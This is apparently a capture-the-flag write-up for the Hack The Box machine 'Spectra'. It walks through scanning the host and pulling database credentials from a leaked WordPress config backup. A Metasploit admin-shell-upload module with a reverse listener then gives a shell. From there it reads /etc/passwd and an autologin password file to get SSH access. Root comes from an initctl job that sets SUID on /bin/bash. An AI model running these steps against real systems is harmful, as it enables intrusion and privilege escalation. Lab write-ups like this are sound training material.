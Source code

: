 
## Machine: Spectra
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.229
- DNS
	- `sudo echo 10.10.10.229 spectra.htb >> /etc/hosts` 


### Nmap Scan
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-01 13:44 EDT
Nmap scan report for 10.10.10.229
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.94 seconds
```

### Gathering (interesting information)
- `http://spectra.htb/main/`
	- `User(interesting)` : administrator
	- `Word Press Site`


### Enumeration
- `http://spectra.htb/testing` -> `Directory Listing Able`
	- Configuration Leak
    ```sh
	$ curl -XGET spectra.htb/testing/wp-config.php.save
    ```
	- `Result`
		- DB_USER: devtest
		- DB_PASSWORD: devteam01

### Exploit && Gainig Shell
- Metasploit
	- Module
		- exploit/unix/webapp/wp_admin_shell_upload
	- Configure
        ```sh
		$ set rhost 10.10.10.229
		$ set username administrator
		$ set password devteam01
		$ set targeturi /main
		$ set lhost My_Ip
		$ set lport 4444
        ```

### Credential
- `cat /etc/passwd`
    ```text
	...
	katie:x:20156:20157::/home/katie:/bin/bash
    ```

### USER Escalate
- Process
    ```sh
	$ cd /opt
	$ cat autologin.conf.orig
	$ cd /etc/autologin
	$ cat passwd
    ```
	- `katie password`: `SummerHereWeCome!!`
- SSH Connection  
    ```sh
	$ ssh katie@10.10.10.229
	>> Password: SummerHereWeCome!!
    ```


### Priviliege Escalate
- Command
   ```sh
   $ sudo -l
   User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
   ```
   - Directory move: `cd /etc/init`
       ```text
       $ nano test.conf
       > script
       > chmod +s /bin/bash
       > end script
       ```
       - `sudo /sbin/initctl stop test`
       - `sudo /sbin/initctl start test`
   - `/bin/bash -p`







